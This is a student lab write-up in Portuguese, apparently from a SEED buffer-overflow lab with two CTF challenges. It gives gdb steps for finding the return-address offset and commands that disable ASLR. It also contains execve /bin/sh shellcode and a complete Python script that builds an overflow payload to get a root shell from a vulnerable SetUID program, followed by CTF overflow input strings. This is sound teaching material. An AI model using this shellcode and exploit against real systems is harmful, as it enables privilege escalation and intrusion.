


## Task: Invoking the Shellcode

Ao compilar o código com a flag -m32, é possível executar o código como se o sistema fosse de 32-bits. A versão de 64-bits é executada de forma normal, visto que a máquina é desse tipo.

## Task 2: Understanding the Vulnerable Program and Task 3: Launching Attack on 32-bit Program (Level 1)

Através do Makefile, são criados vários programas Stack vulneráveis ao Stack Overflow. Estes programas sendo SetUID será nos possível, usando a shellcode da task anterior, correr shell como root.

Primeiramente, tivemos que desativar a randomização do espaço de endereços e alterar a shell para zsh, devido ao facto de que em programas SetUID a /bin/dash proibir chamadas ao sistema com privilégios root.
```sh
#desativa a randomização de endereços
sudo sysctl -w kernel.randomize_va_space=0

#altera a shell
sudo ln -sf /bin/zsh /bin/sh
```
Ao correr o stack-dbg em debug com a ferramenta gdb é nos possível descobrir a posição do ebp e o topo da stack. Subtraindo estes dois valores conseguimos obter o valor do endereço de retorno. 

* Passo 1: Correr gdb no stack-L1-dbg através do comando 
```sh
gdb stack-L1-dbg
```

* Passo 2: Criar um *breakpoint* na função bof
```sh
b bof
```

* Passo 3: Executar o programa e continuá-lo
```sh
run
continue
```

* Passo 4: Obter o endereço do edp e do stack e subtrair os dois



**Conclusão**

Sabemos que o endereço do *frame pointer* é *0xFFFFCA88* e por isso, os endereços de retorno começam *0xFFFFCA88 + 4*.
Sabemos também o endereço do topo do *buffer*
*0xFFFFCA1C* e por isso, o valor do *offset* vai ser esses dois valores subtraidos que dá **108**. Para obter a posição seguinte é somado ao *offset* 4, resultando no valor **112**. Ao ret é somado 250, uma vez que os endereços no programa real são modificados ligeiramente assegurando, assim, que o endereço de retorno seja lido pelo programa mesmo sem estar no modo debug.  
Com esta informação, podemos substituir os valores no ficheiro *exploit* fornecido. 


```py
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80" 
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)       # Change this number 
content[start:] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xFFFFCA88 + 250         # Change this number 
offset = 112            # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```



## CTF 5 

### Desafio 1

Basta dar overflow ao buffer1 e conseguimos escrever assim no buffer2 que tem o ficheiro para abrir. Isto é possível, pois o buffer1 ter um tamanho de 20 bytes e o input poder ser de 28.

inputString : "aaaaaaaaaaaaaaaaaaaaflag.txt"

### Desafio 2

Similarmente ao desafio 1, temos de escrever por cima do buffer2 e do buffer3 com valores diferentes. Isto é possível, pois o buffer1 ter um tamanho de 20 bytes e o input poder ser de 32.

inputString : "aaaaaaaaaaaaaaaaaaaa\x22\x21\xfc\xfeflag.txt"